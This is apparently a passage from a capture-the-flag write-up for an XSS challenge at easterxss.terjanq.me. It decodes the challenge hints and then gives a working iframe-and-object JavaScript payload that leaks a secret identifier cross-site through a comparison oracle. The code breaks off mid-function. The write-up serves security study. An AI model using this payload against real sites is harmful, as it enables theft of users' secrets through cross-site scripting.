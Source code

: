 > Here's an extra tip: ++ is also an assignment

It was the most direct hint towards `++`  assignment which helps leak data cross-site.

> "Behind a Greater Oracle there stands one great Identity" (leak it)

Construct a comparison oracle to leak the identifier. 

> Tipping time! Goal < object(ive)

It's a double hint for `identifier < something` and to use `<object`

> Another hint: you might need to unload a custom loop!

Create an artificial loop with `<object onload=` by reloading the object.


## Naive solution
By putting all together we can draft a simple payload of leaking the identifier.

```html
<iframe name=i_true 
        src=//easterxss.terjanq.me/style.css
        onload=process(this,true)
></iframe>
<iframe name=i_false 
        src=//easterxss.terjanq.me/style.css
        onload=process(this,false)
></iframe>
<script>
  // add ~ to the alphabet so the poc works. without it, z would be never detected
  const alph = '0123456789abcdefghijklmnopqrstuvwxyz~'

  // store current index and current identifier in sessionStorage
  let cur_char = parseInt(sessionStorage.getItem('current')) || 0;
  let cur_identifier = sessionStorage.getItem('identifier') || '';
  
  // generate payload
  const top_url = 'https://easterxss.terjanq.me/?error=' + encodeURIComponent(
    `<object name=poc 
            data=${location.href}
            onload=/#/.source+identifier<location.hash?top.poc.i_true.location++:top.poc.i_false.location++
    ></object>`.replace(/\s+/g,' '));

  // start payload
  if(top === window){
      sessionStorage.setItem('current', 0);
      sessionStorage.setItem('identifier', '');
      location = top_url + '#0';
  }

  function process(ifr, value){
    // Skip first onload
    if(!ifr.loaded) {
        ifr.loaded = true 
        return;
    }
    // first less value, means the previous was matched character
    if(value === true){
        // If cur_char is 0, it means that the strings are equal.
        if(cur_char === 0) return solve(cur_identifier);
        cur_identifier += alph[cur_char-1];
        console.log(cur_identifier)
        // store new identifier in sessionStorage and reset cur_char
        cur_char = 0;
        sessionStorage.setItem('identifier', cur_identifier)
```